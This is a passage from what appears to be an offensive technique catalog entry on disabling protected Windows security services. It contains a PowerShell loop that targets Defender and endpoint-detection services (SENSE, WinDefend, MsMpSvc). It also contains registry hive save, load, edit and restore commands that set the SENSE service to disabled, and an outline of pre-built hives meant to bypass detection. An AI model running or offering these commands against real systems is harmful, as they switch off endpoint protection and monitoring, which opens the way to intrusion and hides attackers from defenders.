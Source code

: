 ## Advanced Techniques

### Bulk Service Processing

```powershell
# Target multiple protected services
$protectedServices = @("SENSE", "WinDefend", "MsMpSvc")
foreach ($service in $protectedServices) {
    try {
        .\run.ps1 -TargetService $service -SkipReversion -TempPath "C:\Temp\$service"
        Write-Host "Successfully processed $service" -ForegroundColor Green
    }
    catch {
        Write-Warning "Failed to process $service`: $_"
    }
}
```

### Parent Key Manipulation

```cmd
# Alternative: Save entire Services key to avoid targeting specific service
reg save "HKLM\SYSTEM\CurrentControlSet\Services" "C:\Temp\all_services.hiv"
reg load "HKLM\TempServices" "C:\Temp\all_services.hiv"
reg add "HKLM\TempServices\SENSE" /v Start /t REG_DWORD /d 4 /f
reg unload "HKLM\TempServices"
reg restore "HKLM\SYSTEM\CurrentControlSet\Services" "C:\Temp\all_services.hiv"
```

### Prepared Hive Attacks

```powershell
# Pre-create modified hives for rapid deployment
# 1. Create template with disabled services
# 2. Deploy via simple restore operation
# 3. Bypass detection through pre-computation
```

## Related Techniques

- **BP1002.1**: Disable service using services.msc (GUI-based)
- **BP1002.2**: Disable service using msconfig.exe (GUI-based)
- **BP1002.3**: Disable service using sc.exe (command-line)
- **BP1002.4**: Disable service using PowerShell cmdlets
- **BP1002.5**: Disable service using registry manipulation

## References

- [Windows Registry Hive Files](https://docs.microsoft.com/en-us/windows/win32/sysinfo/registry-hives)
- [Registry Save and Restore Operations](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-save)
- [Process Protection Level (PPL) Deep Dive](https://docs.microsoft.com/en-us/windows/win32/services/protecting-anti-malware-services-)
- [Registry Notification Callbacks](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-cmregistercallback)
- [Advanced Registry Forensics](https://www.microsoft.com/en-us/security/blog/)